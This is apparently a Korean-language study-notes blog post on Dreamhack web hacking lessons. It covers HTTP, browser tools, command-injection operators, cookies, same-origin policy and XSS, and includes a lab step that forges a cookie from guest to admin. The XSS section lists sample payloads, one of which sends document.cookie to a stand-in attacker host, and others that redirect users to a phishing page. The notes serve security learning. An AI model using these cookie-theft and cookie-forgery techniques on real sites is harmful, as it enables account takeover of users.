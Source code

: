 ```yaml
---
layout: post
title:  "Web Hacking Study - Dreamhack"
toc: true
---
```


## Introduction
그냥 소개하는 곳이구나.
각오: 부지런하자

## Background: Web
World Wide Web, W3, Web, 웹
웹: HTTP를 이용하여 정보를 공유하는 서비스
HTTP: 웹상에서 서로 통신을 하기 위해 정해둔 일종의 규칙
프론트엔드(Front-end): 이용자의 요청을 받는 부분
백엔드(Back-end): 요청을 처리하는 부분

웹 리소스: 웹에 갖춰진 정보 자산 - 고유의 Uniform Resource Identifier(URL)을 가짐
- Hyper Text markup Language (HTML): 태그와 속성을 통한 구조화된 문서 작성 지원
- Cascading Style Sheets (CSS): 웹 리소스들의 시각화 방법을 기재한 스타일 시트
- JavaScript (JS): 웹 문서의 동작 정의. (Client-Side Script)

## Background: HTTP/HTTPS

클라이언트의 행의 요청: Request / 서버의 행위 응답: Response
프로토콜(Protocol): 규격화된 상호작용에 적용되는 약속

HTTP: 서버와 클라이언트의 데이터 교환을 요쳥과 응답 형식으로 정의한 프로토콜
### HTTP 헤더
각 줄은 CRLF로 구분되며 첫 줄은 시작 줄(Start Line), 나머지 줄은 헤더(Header)라고 부름
헤더의 끝은 빈 줄
### HTTP 바디
헤드의 끝을 나타내는 CRLF 뒤 모든 줄

### HTTP 요청
시작 줄: 메소드, 요청 대상, HTTP 버전으로 구성
- 메소드: 요청 대상에 대해 서버가 수행하길 바라는 동작
예) GET(리소스 가져와), POST(요청 대상에게 데이터 보내)
### HTTP 응답
시작줄: HTTP 버전, 상태 코드, 처리 사유로 구성. 띄어쓰기로 구분
- 상태 코드: 요청에 대한 처리 결과를 세 자릿수로 나타냄 (예: 404)

HTTPS(HTTP over Secure socket layer): TLS를 사용하여 HTTP를 보완한 프로토콜

## Background: Web Browser

웹 브라우저: 뛰어난 이용자 경험을 제공하는 소프트웨어 중 하나
URL은 Scheme, Authority (Userinfo, Host, Port), Path, Query, Fragment로 구성
- scheme: 웹 서버와 어떤 프로토콜로 통신할지
- Host: Authority의 일부. 접속할 웹 서버의 주소에 대한 정보
- Port: Authority의 일부. 접속할 웹 서버의 포트에 대한 정보
- Path: 접근할 웹 서버의 결로로 '/'로 구분
- Query: 웹 서버에 전달하는 파라미터. ? 뒤에 위치
- Fragment: 메인 리소스에 존재하는 서브 리소스를 접근할 때 식별하기 위한 정보. # 뒤에 위치

Domain name: 도메인의 특성을 담은 이름을 정의하여 IP 대신 사용 (예: naver.com)

웹 렌더링(Web rendering): 서버로부터 받은 리소스를 이용자에게 시각화하는 행위

## Tools: browser DevTools
개발자 도구: F12 누르면 나오는 창
요소 검사: 웹 페이지의 원하는 요소에 마우스를 올리면 대상의 정보 출력, 클릭하면 관련된 HTML 코드 하이라이팅
디바이스 툴바: 현재 브라우저의 화면 비율 및 User-Agent를 원하는 값으로 변경 가능
Elements: HTML 코드 읽기
- 코드를 선택한 상태로 단축키 F2를 누르거나 더블클릭하면 수정 가능.
Console: 프론트렌드의 자바스크립트 코드에서 발생한 각종 메세지를 출력, 이용자가 입력한 자바스크립트 코드를 실행해주는 도구
- 윈도우즈 단축키 : Ctrl + Shift + J
Sources: 현재 페이지를 구성하는 웹 리소스 확인 가능, 원하는 JS 디버깅 가능
Network: 서버와 오가는 데이터 확인 가능. 로그를 우클릭하고 Copy로 복사 가능
Application: 쿠키, 캐시, 이미지, 폰트, 스타일시트 등 웹 애플리케이션과 관련된 리소스 조회

## ServerSide: Command Injection
인젝션(Injection): 악의적인 데이터를 프로그램에 입력하여 이를 시스템 명령어, 코드, 데이터베이스 쿼리 등으로 실행되게 하는 기법
Command Injection: 이용자의 입력을 시스템 명령어로 실행하게 하는 취약점
-> 이용자의 입력을 제대로 검사하지 않으면 임의 명령어가 실행될 수 있음

'' 명령어 치환 - 중복 사용 불가
$() 명령어 치환 - 중복 사용 가능
&& 명령어 연속 실행 - 앞 명령어 에러 발생 X 시 뒷 명령어 실행
|| 명령어 연속 실행 - 앞 명령어 에러 발생 시 뒷 명령어 실행
; 명령어 구분
| 파이프 - 앞 명령어의 결과가 뒷 명령어의 입력으로 들어감

## Background: Cookie & Session
HTTP 프로토콜 특징
- Connectionless: 하나의 요청에 하나의 응답을 한 후 연결 종료
- Stateless: 통신이 끝난 후 상태 정보를 저장하지 않는 것
이러한 특성을 갖는 HTTP에서 상태를 유지하기 위해 쿠키 탄생

쿠키: Key와 Value로 이뤄진 일종의 단위
개개인에게 맞춤형 서비스를 제공하기 위해 클라이언트를 식별할 수 있는 값을 쿠키에 저장해 사용함
-> 서버가 검증 없이 쿠키를 통해 이용자의 인증 정보를 식별하면 악의적인 클라이언트가 쿠키 정보를 변조한 공격에 당할 수 있음

세션(Session): 인증 정보를 서버에 저장하고 해당 데이터에 접근할 수 있는 키(유추할 수 없는 랜덤한 문자열, Session ID)을 만들어 클라이언트에 전달

## Exercise: Cookie
엔드포인트: /
서버는 별다른 검증 없이 이용자 요청에 포함된 쿠키를 신뢰하고, 이용자 인증 정보를 식별하기 때문에 공격자는 쿠키에 타 계정 정보를 삽입해 계정을 탈취할 수 있습니다.

<!--
C:\Users\skanj>python -c "import flask; print('Flask is installed')"
Flask is installed

C:\Users\skanj>import flask
'import'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj>python -c import flask
  File "<string>", line 1
    import
          ^
SyntaxError: invalid syntax

C:\Users\skanj>python -c "import falsk"
Traceback (most recent call last):
  File "<string>", line 1, in <module>
ModuleNotFoundError: No module named 'falsk'

C:\Users\skanj>python -c "import flask"

C:\Users\skanj>python app.py
python: can't open file 'C:\\Users\\skanj\\app.py': [Errno 2] No such file or directory

C:\Users\skanj>cd /mnt/c/Users/skanj/OneDrive/바탕\ 화면/coding
지정된 경로를 찾을 수 없습니다.

C:\Users\skanj>cd C:\Users\skanj\OneDrive\바탕 화면\coding

C:\Users\skanj\OneDrive\바탕 화면\coding>python -c "import flask"

C:\Users\skanj\OneDrive\바탕 화면\coding>pyton app.py
'pyton'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj\OneDrive\바탕 화면\coding>python app.py
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://192.168.0.5:8000
Press CTRL+C to quit
-->

도대체 저 서버에 어떻게 들어가나 싶었는데 문제에 'VM 접속하기'를 누르면 들어갈 수 있는 서버가 떴다. 진짜 충격!!!

개발자 도구 -> 응용 프로그램 -> 쿠키 -> guest를 admin으로 변조

## Background: Cookie & Session
링크/admin 페이지에서 admin용 코드 복사해서 guest의 코드를 admin 코드로 붙여넣기

## mitigation: Same Origin Policy
SOP(Same Origin Policy), 동일 출처 정책: 가져온 데이터를 악의적인 페이지에서 읽을 수 없도록 하는 브라우저의 보안 매커니즘
이미지나 자바스크립트, CSS 등의 리소스는 SOP에 구애 받지 않고 외부 출처에 대해 접근을 허용한다

Origin(오리진): 브라우저가 가져온 정보의 출처
프로토콜(Protocol, Schema), 포트(Port), 호스트(Host)로 구성 -> 구성 요소가 모두 일치해야 동일한 오리진
동일한 오리진(Same Origin)-구성 요소가 모두 일치 / 다른 오리진(Cross Origin)-하나라도 다름

외부 출처에서 불러온 데이터를 읽으려고 할 때는 오류가 발생해 읽지 못함. 하지만 읽는 것 외에 데이터를 쓰는 것은 문제 없이 동작함.

교차 출처 리소스 공유(Cross Origin Resource Sharing, CORS): HTTP 헤더에 기반하여 Cross Origin 간에 리소스를 공유하는 방법
- 발신측에서 CORS 헤더를 설정해 요청하면, 수신측에서 헤더를 구분해 정해진 규칙에 맞게 데이터를 가져갈 수 있도록 설정

JSON with Padding (JSONP)
JSONP 방식은 <script> 태그로 Cross Origin의 데이터를 불러옴. 하지만 <script> 태그 내에서는 데이터를 자바스크립트의 코드로 인식하기 때문에 Callback 함수를 활용
예시: myCallback({'id':'dreamhack'});

## ClientSide: XSS
클라이언트 사이드 취약점: 웹 페이지의 이용자를 대상으로 공격할 수 있는 취약점
대표적인 공격: Cross Site Scripting(XSS) -  공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행할 수 있음
이용자가 삽입한 내용을 출력하는 기능에서 발생

발생 형태에 따른 XSS 종류
- Stored XSS: XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
- Refleced XSS: XSS에 사용되는 악성 스크립트가 URL에 삽입디고 서버의 응답에 담겨오는 XSS
- DOM-based XSS: XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
- Universal XSS: 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점. SOP 정책을 우회하는 XSS

### 콘솔에 넣을 수 있는 자바 스크립트 코드들
alert("hello");
alert(document.cookie); // 현재 페이지의 쿠키를 인자로 가진 alert 실행.
document.cookie = "name=test;"; // 쿠키 생성(key: name, value: test)
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie; // new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정
document; // 이용자의 페이지 정보에 접근.
document.write("Hacked By DreamHack !"); // 이용자의 페이지에 데이터를 삽입.
location.href = "http://hacker.dreamhack.io/phishing"; // 이용자의 위치를 변경.
window.open("http://hacker.dreamhack.io/") // 새 창 열기









